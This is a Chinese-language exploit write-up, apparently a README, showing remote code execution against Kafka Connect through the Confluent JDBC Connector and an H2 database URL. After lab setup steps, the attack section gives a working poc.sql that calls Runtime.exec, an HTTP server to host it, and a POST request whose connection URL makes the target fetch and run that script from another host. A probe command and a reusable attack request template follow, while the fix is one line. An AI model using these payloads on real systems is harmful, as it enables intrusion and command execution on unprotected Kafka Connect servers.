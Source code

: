 
# JDBC 反序列化造成kafka Connect任意代码执行
## 前情
日常吃瓜，刷到kafka爆出RCE，为其Connect框架存在JNDI注入，如下：
 ![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out.png)
查看相应解析，发现只是简单修改了某项配置：
 ![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927162901607.png)
JAAS是java的认证与授权机制，Kakfa支持使用JNDI登陆模块进行登陆：
![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163013645.png)
该漏洞发生于客户端与服务端进行初次连接的时候，向服务端发送用户的提供地址，伪造一个恶意的JNDI服务，从而造成命令执行。
 
由此推测作者应该是翻kafka的官方文档，查找API、配置等，刚好发现该配置支持JNDI，判断JNDI URL是否可控，发现可控，成功挖掘0day。

然后沿着作者的思路，尝试翻看官方文档，是否存在类似配置，最终查找了大半天并未发现。

然后开始思考，kafka Connect框架的作用是用来从其他数据库导入数据到kafka，也可以将kafka中的数据导出到其他数据库，那么将其他数据库的数据导入kafka时，是否可以控制数据库连接地址的URL，造成JDBC 反序列化，从而命令执行呢？

一开始发现kafka的Connect只提供了最基本的Connector，没有提供从数据库读取信息到kafka的具体实现，再次搜索相关信息，发现JDBC具体实现由Confluent公司提供，这是一个很常见的功能，为什么kafka不提供呢？我觉得原因有亮点：
- 他作为框架，只提供了基础架构，而JDBC虽然常用，但是不好持续维护；
- JDBC由kafka的商业化母公司Confluent提供，估计是为了以后捞钱；

## 搭建环境
从官网下载最新的kafka：
![image-20230804211601546](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163106007.png)
解压：
 ![image-20230804211732233](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163141985.png)
配置kafka：
```
$ vim config/server.properties
```
修改server.properties 文件：

```
...
//添加这一句
listeners=PLAINTEXT://:9092

...
//还有这个
zookeeper.connect=localhost:2181

...
```
启动zookeeper：
```
$ bin/zookeeper-server-start.sh config/zookeeper.properties
```

打开一个终端运行kafka：


```
$ cd ~/Dev/kafka_2.13-3.5.1/
$ bin/kafka-server-start.sh config/server.properties
```

接着配置kafka Connect，先介绍一下kafka Connect：
kafka Connect是一个框架，提供了从其他数据库获取信息到kafka，或者从kafka导出信息到数据库的能力，他并没有具体的实现，具体的实现由Confluent公司提供，他是kafka的商业化母公司，对于数据库的具体实现为JDBC Connector。
 ![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163159105.png)
先下载JDBC Connector从该URL：https://www.confluent.io/hub/confluentinc/kafka-connect-jdbc：
 ![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163223339.png)
打开一个新终端，在kafka的根目录创建一个connector-libs目录，然后解压刚刚下载的zip包，移动到connector-libs目录：

```
$ cd ~/Dev/kafka_2.13-3.5.1/
$ mkdir connector-libs 
$ unzip ~/Downloads/confluentinc-kafka-connect-jdbc-10.7.3.zip
$ mv ./confluentinc-kafka-connect-jdbc-10.7.3/lib connector-libs/
```

本示例使用h2作为数据库源进行演示，h2是java语言开发的嵌入式数据库，SpringBoot就使用了H2数据库，同时他也是最容易执行命令的，其他数据库也有同样的效果，不过会比较麻烦。
下载H2 数据引擎jar包, 将它移动到connector-libs目录：
 ![image-20230804213805768](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163253546.png)
```
$ mv ~/Downloads/h2-1.4.199.jar ~/Dev/kafka_2.13-3.5.1/connector-libs/lib/
```
配置 connect-standalone.properties, 添加 plugin.path熟悉：

```
$ vim config/connect-standalone.properties
```

添加下面一行：

```
plugin.path=/Library/Java/JavaVirtualMachines/jdk1.8.0_111.jdk/Contents/Home,/Users/zeanhike/Dev/kafka_2.13-3.5.1/connector-libs/lib
```

将 h2-1.4.199.jar 设置 CLASSPATH 环境变量（该处卡了一天，一开始并没有想到要将该jar导出到CLASSPATH，然后一直报错，找不到合适的数据库连接池，然后找到StackOver社区，才发现要导出到CLASSPATH）
 ![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163315051.png)
启动 Kafka Connect：


```
$ bin/connect-standalone.sh config/connect-standalone.properties 
```


## 攻击
创建一个SQL并将它保存为poc.sql：

```
CREATE ALIAS EXEC_CMD AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "zeanhike";}';CALL EXEC_CMD ('open -a Calculator.app')
```


启动HTTP 服务并且将poc.sql文件放到http服务的根目录：

```
$ python3 -m http.server 1022
```

然后发送如下包：
```
POST http://localhost:8083/connectors
Content-Type: application/json

{
  "name": "zeanhike",
  "config": {
    "connector.class": "io.confluent.connect.jdbc.JdbcSourceConnector",
    "connection.url": "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:1022/poc.sql'",
    "connection.user": "zeanhike",
    "connection.password": "zeanhike",
    "topic.prefix": "mysql-01-",
    "mode":"bulk"
  }
}
```
 
 
## 不足
● 还未尝试其他数据库，比如MySQL、Oracle等
● 未做成自动化检测工具、并集成其他数据库
● 需要kafka Connect存在同时使用了JDBC Connector、且未开启鉴权（默认不开启）
## Payload
探测kafka Connect是否存在：

 ```
curl http://hostname:port/connectors
```

然后根据返回的关键字判断使用了什么数据库（不准确，可以盲打），然后发送以下攻击包：

```
POST http://localhost:8083/connectors
Content-Type: application/json

{
  "name": "zeanhike",
  "config": {
    "connector.class": "io.confluent.connect.jdbc.JdbcSourceConnector",
    "connection.url": "恶意数据库的连接URL",
    "connection.user": "zeanhike",
    "connection.password": "zeanhike",
    "topic.prefix": "mysql-01-",
    "mode":"bulk"
  }
}
```

漏洞利用方式和效果由于不同的数据库而不同，该项目集结了大部分的JDBC攻击https://github.com/su18/JDBC-Attack，MySQL的利用需要用到MySQL Fake Server（https://github.com/fnmsd/MySQL_Fake_Server），H2的利用仅仅需要一个sql语句或者不用都行。
## 修复
在JdbcSourceConnector类上，过滤掉恶意数据库连接URL。
